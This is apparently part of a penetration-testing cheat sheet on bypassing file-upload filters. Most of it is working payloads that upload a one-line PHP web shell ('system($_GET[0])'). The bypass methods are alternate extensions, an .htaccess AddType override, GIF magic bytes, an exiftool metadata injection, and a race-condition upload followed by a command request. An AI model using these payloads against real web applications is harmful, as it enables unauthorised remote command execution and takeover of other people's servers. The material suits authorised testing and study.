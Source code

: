 ```
phtml
module
inc
hphp
ctp
```

- .htaccess

```http
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .test
```

```http
Content-Disposition: form-data; name="avatar"; filename="cmd.test"
Content-Type: application/x-php

<?php system($_GET[0]);?>
```

- Magik Numbers

```http
Content-Disposition: form-data; name="avatar"; filename="cmd.php"
Content-Type: application/octet-stream

GIF8;

<?php system($_GET[0]);?>
```

- Metadata

```bash
exiftool -Comment='<?php system($_GET[0]);?>' cmd.png -o cmd.php
```

- Race Condition

![](/img2/Pasted%20image%2020250927221338.png)

```http
- REQ 1 -
Content-Disposition: form-data; name="avatar"; filename="cmd.php"
Content-Type: application/octet-stream

<?php system($_GET[0]);?>


- REQ 2 -
GET /files/avatars/cmd.php?0=whoami HTTP/2
```
